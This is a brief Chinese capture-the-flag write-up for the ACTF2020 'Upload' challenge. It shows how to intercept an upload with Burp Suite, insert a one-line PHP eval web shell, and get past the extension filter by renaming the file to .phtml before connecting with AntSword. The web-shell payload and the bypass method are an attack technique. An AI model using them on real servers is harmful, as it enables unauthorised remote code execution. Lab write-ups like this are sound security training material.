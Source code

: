 ## [ACTF2020 新生赛]Upload

先用bp抓包，随便上传一个图片

![image-20220713004304968](D:\Typora\note\CTF\web\集训\web-Upload.assets\image-20220713004304968.png)

然后内容改为`<?php eval($_POST[1]);?>`

再改后缀，改成php或php4都不行，最后改为phtml发现可以，这样一句话木马就上传成功了

直接蚁剑连接找flag

![image-20220713004504451](D:\Typora\note\CTF\web\集训\web-Upload.assets\image-20220713004504451.png)

